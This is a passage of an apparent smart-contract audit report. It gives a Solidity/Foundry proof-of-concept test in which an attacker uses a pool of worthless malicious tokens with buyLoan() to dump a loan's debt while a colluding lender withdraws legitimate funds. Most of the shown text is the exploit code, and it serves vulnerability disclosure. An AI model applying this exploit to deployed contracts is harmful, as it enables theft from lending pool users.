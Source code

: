 ```solidity
            loanToken: address(maliciousLoanToken),
            collateralToken: address(maliciousCollateralToken),
            minLoanSize: 100*10**18,
            poolBalance: 1000*10**18,
            maxLoanRatio: 2*10**18,
            auctionLength: 1 days,
            interestRate: 1000,
            outstandingLoans: 0
        });
        bytes32 maliciousPoolId = lender.setPool(maliciousPool);
        //
        // 3. Lender1 (malicious actor) kicks off the auction.
        //
        uint256[] memory loanIds = new uint256[](1);
        loanIds[0] = 0;
        vm.prank(lender1);
        lender.startAuction(loanIds);
        // warp to middle of auction
        vm.warp(block.timestamp + 12 hours);
        //
        // 4. The Attacker call the buyLoan() function using his malicious pool.
        //
        vm.startPrank(attacker);
        lender.buyLoan(0, maliciousPoolId);
        //
        // 5. The Lender1 (malicious actor) pool has the loaned amount + interests. Lender1 (malicious actor) can withdraw all his pool balance money..
        //
        // assert lender1 pool balance is 1000 + interests
        (,,,,poolBalance,,,,) = lender.pools(poolIdLender1);
        assertGt(poolBalance, 1000 * 10**18); // 1000 + interests (assertGt)
        vm.prank(lender1);
        lender.removeFromPool(poolIdLender1, 1000 * 10**18);
        //
        // 6. The malicious pool has the debt. 1000 initial pool balance - 100 debt tokens - borrow interests.
        //    The `lender1` (malicious actor) withdraw his initial deposit (1000 legitimate tokens).
        //    The `borrower` (malicious actor) does not repay the debt (100 legitimate tokens).
        //    The malicious pool has the debt with custom (malicious) tokens that may be worth nothing.
        //
        (,,,,poolBalance,,,,) = lender.pools(maliciousPoolId);
        assertLt(poolBalance, (1000 - 100) * 10**18); // poolBalance < (1000 - 100 - borrow interests)
    }
```

## Impact
